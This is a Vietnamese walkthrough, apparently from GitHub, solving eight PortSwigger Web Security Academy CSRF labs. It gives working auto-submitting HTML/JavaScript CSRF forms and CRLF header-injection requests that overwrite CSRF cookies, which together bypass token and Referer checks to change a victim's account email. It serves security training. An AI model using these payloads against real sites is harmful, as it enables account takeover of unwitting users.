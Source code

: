 # 1. CSRF vulnerability with no defenses
Vào exploit server, cấu hình đoạn HTML sau:

```
<form id="form" method="POST" action="https://0afb00eb04d9b8bec0d9405a00290069.web-security-academy.net/my-account/change-email">
<input type="hidden" name="email" value="attacker2@email.com">
</form>

<script>form.submit()</script>
```
Sau khi click "Deliver to victim", bài lab được giải thành công.

# 2. CSRF where token validation depends on request method
Request thay đổi email là `POST /my-account/change-email` với hai tham số `email` và `csrf`. Tuy nhiên nhận thấy nếu ta thay đổi request thành `GET /my-account/change-email?email=attacker%40gmail.com`, cho dù không có tham số `csrf` thì email vẫn bị thay đổi thành công

Vào exploit server cấu hình đoạn XML sau:

```
<img src=1 onerror="document.location='https://0a06005e03421b53c1c14436007600ad.web-security-academy.net/my-account/change-email?email=attacker@gmail.com'">
```
Sau khi click "Deliver to victim", bài lab được giải thành công.

# 3. CSRF where token validation depends on token being present
Ta thấy khi trong request không có tham số `csrf`, email vẫn bị thay đổi. Như vậy ta vào exploit server và cấu hình đoạn HTML:

```
<form method="POST" action="https://0a35003f047cea06c1019ee1003c006c.web-security-academy.net/my-account/change-email" id="form">
<input type="hidden" name="email" value="attacker@gmail.com">
</form>

<script>form.submit()</script>
```
Sau khi click "Deliver to victim", bài lab được giải thành công.

# 4. CSRF where token is not tied to user session
Đăng nhập vào tài khoản wiener:peter rồi vào trang "My account", lưu lại csrf token. Sau đó logout rồi đăng nhập vào tài khoản carlos:montoya, dùng session của carlos và csrf token đã lưu của wiener để submit một request `POST /my-account/change-email`. Kết quả email bị thay đổi. Như vậy giữa csrf và session không có mối liên hệ với nhau. Với một csrf token chưa được sử dụng, ta có thể submit với bất kỳ session nào.

Ta đăng nhập lại tài khoản wiener:peter, lưu lại csrf token là `w9lcvACTQ0fT30znoZiPT42ILgGHkFnF`, sau đó và exploit server để cấu hình đoạn HTML sau:

```
<form id="form" method="POST" action="https://0a1a008e03260d9ac1a3879500b300b3.web-security-academy.net/my-account/change-email">
<input type="hidden" name="email" value="attacker@gmail.com">
<input type="hidden" name="csrf" value="w9lcvACTQ0fT30znoZiPT42ILgGHkFnF">
</form>

<script>form.submit();</script>
```

Sau khi click "Deliver to victim", bài lab được giải thành công.

# 5. CSRF where token is tied to non-session cookie
Ta thấy trong form thay đổi email có chứa csrf token, tuy nhiên token này phụ thuộc vào cookie `csrfKey`, miễn là `csrfKey` và thuộc tính `csrf` phù hợp với nhau thì có thể submit thành công.

Trong chức năng search của website, thử `/?search=abc` thì thấy trong response có header `Set-Cookie: LastSearchTerm=abc; Secure; HttpOnly`. Ta sẽ thử xem có thể thiết lập một cookie mới với chức năng Search hay không. Gửi request `GET /?search=abc%0D%0ASet-Cookie:+abc%3Ddef`, ta thấy header `Set-Cookie` trong response đã bị xuống dòng và thêm một header Set-Cookie mới:

![image](https://user-images.githubusercontent.com/103978452/209636281-7492097f-eaf0-4cda-bf42-fcd4fbda9dd6.png)

Như vậy, ta thử ghi đè lên cookie csrfKey bằng cách gửi request: `GET /?search=abc%0D%0ASet-Cookie%3A+csrfKey%3D4tSIrRxNcvsF3dGtffgvaYuQI6DOfybx%3B+Path%3D%2F%3B+SameSite%3DNone`.

Kết quả như sau:

![image](https://user-images.githubusercontent.com/103978452/209636456-760b8977-96e6-4c40-85f9-94220d22f43b.png)

Như vậy, ta có thể thay đổi cookie csrfKey của nạn nhân. Ta có kịch bản tấn công như sau:

1) Từ session của mình, lấy ra cookie `csrfKey=4tSIrRxNcvsF3dGtffgvaYuQI6DOfybx` và token `csrf=Bt0qvdZVXoUpfTmoDGy54RJIxytRR1SP`
2) Dùng tag `<img>` để thay đổi cookie `csrfKey` của nạn nhân
3) Gửi request đổi email với csrf token đã có

Vào exploit server và cấu hình đoạn HTML sau:
```
<img src="https://0aa900e403ad1a02c0b0125d00b000d9.web-security-academy.net/?search=abc%0D%0ASet-Cookie%3A+csrfKey%3D4tSIrRxNcvsF3dGtffgvaYuQI6DOfybx%3B+Path%3D%2F%3B+SameSite%3DNone">
<form id="form" method="POST" action="https://0aa900e403ad1a02c0b0125d00b000d9.web-security-academy.net/my-account/change-email">
<input type="hidden" value="attacker00022@gmail.com" name="email">
<input type="hidden" value="Bt0qvdZVXoUpfTmoDGy54RJIxytRR1SP" name="csrf">
</form>
<script>form.submit()</script>
```

Sau khi click "Deliver to victim", kết quả thành công.

# 6. CSRF where token is duplicated in cookie
Ta thấy chỉ cần cookie `csrf` và csrf token trong request là hai chuỗi giống nhau thì request đổi email sẽ thành công. Và trong website vẫn có lỗi chèn thêm header như trong lab #5.

Để thay đổi cookie `csrf=abc`, ta gửi request sau:
```
GET /?search=abc%0d%0aSet-Cookie%3A+csrf%3Dabc%3B+Path%3D%2F%3B+SameSite%3DNone HTTP/1.1
```

Vào trong exploit server và cấu hình đoạn HTML sau:
```
<img src="https://0a1f008803dca8b6c277137100120000.web-security-academy.net/?search=abc%0d%0aSet-Cookie%3A+csrf%3Dabc%3B+Path%3D%2F%3B+SameSite%3DNone">
<form id="form" method="POST" action="https://0a1f008803dca8b6c277137100120000.web-security-academy.net/my-account/change-email">
<input type="hidden" name="email" value="attacker@gmail.com">
<input type="hidden" name="csrf" value="abc">
</form>
<script>form.submit()</script>
```

Sau khi submit, bài lab được giải thành công.

# 7. CSRF where Referer validation depends on header being present
Ta thấy việc email có được thay đổi thành công hay không phụ thuộc vào việc Referer header có domain là `https://0a90007603f431c2c167ad45006f00b0.web-security-academy.net` hay không. Tuy nhiên nếu ta xóa đi Referer header, email vẫn bị thay đổi.

Như vậy, ta vào exploit server và cấu hình đoạn HTML sau:
```
<html>
<head>
<meta name="referrer" content="never">
</head>
<body>
<form id="form" method="POST" action="https://0a90007603f431c2c167ad45006f00b0.web-security-academy.net/my-account/change-email">
<input type="hidden" name="email" value="attacker@gmail.com">
</form>

<script>form.submit()</script>
</body>
</html>
```

Thẻ `<meta name="referrer" content="never">` sẽ ngăn không đưa dữ liệu vào header Referer của request tiếp theo. Sau khi click "Deliver to victim", kết quả thành công. 

# 8. CSRF with broken Referer validation
Trong chức năng thay đổi email, sau một vài lần check thì ta nhận thấy chỉ khi trong header `Referrer` có chuỗi `0a7d0068037fd0c0c2b20d6200f60041.web-security-academy.net` thì mới có thể submit thành công.

Như vậy, ta vào exploit server và cấu hình đoạn code sau:
```
<form id="form" method="POST" action="https://0a7d0068037fd0c0c2b20d6200f60041.web-security-academy.net/my-account/change-email">
<input type="hidden" name="email" value="hello@gmail.com">
</form>
<script>
if(document.location.search==''){document.location="https://exploit-0ac8005903fbd08ac2770c95014d0097.exploit-server.net/exploit?query=0a7d0068037fd0c0c2b20d6200f60041.web-security-academy.net"}else{form.submit();}
</script>
```

Đoạn code trên đầu tiên sẽ đưa người dùng đến `<exploit-server>/exploit`, sau đó tự động chuyển hướng đến `<exploit-server>/exploit?query=0a7d0068037fd0c0c2b20d6200f60041.web-security-academy.net`, cuối cùng mới submit form để tấn công CSRF. Ta cấu hình HTTP header `Referrer-Policy: unsafe-url` để Referrer header chứa cả query string.

Sau khi submit, kết quả thành công.
